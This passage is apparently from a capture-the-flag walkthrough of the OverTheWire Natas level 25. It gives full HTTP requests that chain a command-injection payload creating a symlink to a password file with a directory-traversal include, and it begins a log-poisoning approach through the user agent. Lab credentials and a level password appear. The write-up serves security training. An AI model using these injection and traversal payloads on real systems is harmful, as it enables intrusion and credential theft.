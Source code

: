 - So we prepare the command to run as this: `ln -s /etc/natas_webpass/natas26 /tmp/donttouchthisfileyouskriptkiddie` (Poor choice, but it will work)
- And our exploit to pass in becomes like this: `;ln -s /etc/natas_webpass/natas26 /tmp/donttouchthisfileyouskriptkiddie;`
- We pass this exploit payload in the level as mentioned in the following request:
```http
GET /?needle=%3bln%20-s%20%2fetc%2fnatas_webpass%2fnatas26%20%2ftmp%2fdonttouchthisfileyouskriptkiddie%3b&submit=Search HTTP/1.1
Host: natas9.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXM5OlpFMWNrODJsbWRHSW9FcmxoUWdXTkQ2ajJXeno2YjZ0
Connection: keep-alive
Referer: http://natas9.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
- The value of `needle` query param is just URL encoded that's why it looks so ugly
- We fire the request and get a usual response back
- Now, our file has been created at the location `/tmp/donttouchthisfileyouskriptkiddie`
- We simply include this file in our actual payload as follows:
```http
GET /?lang=....//....//....//....//....//tmp/donttouchthisfileyouskriptkiddie HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyNTpja0VMS1VXWlVmcE92NnV4UzZNN2xYQnBCc3NKWjRXcw==
Connection: keep-alive
Referer: http://natas25.natas.labs.overthewire.org/
Cookie: PHPSESSID=5o6nht5jjo40nk6lh5d05pd452
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
- We fire the request, and BOOM! our response now contains the string we were looking for: the password: cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
## Approach Scientist
- This approach does not have any dependency on any other level, which also might be the intended solution
- In this approach, we make use of the `logRequest()` function that has been already defined in the code. Let's have a quick recap of the code:
```php
function logRequest($message){
	$log="[". date("d.m.Y H::i:s",time()) ."]";
	$log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
	$log=$log . " \"" . $message ."\"\n";
	$fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
	fwrite($fd,$log);
	fclose($fd);
}
```
- The code logs the user agent and a message in the log file present at a specified location. However, there is no check performed for what user agent can be or what message can be
- This function is being called only if we hit the if condition of directory traversal or the inclusion of file containing the keyword `natas_webpass`. So, we will have to trigger at least one of the conditions in order to make an entry in the log file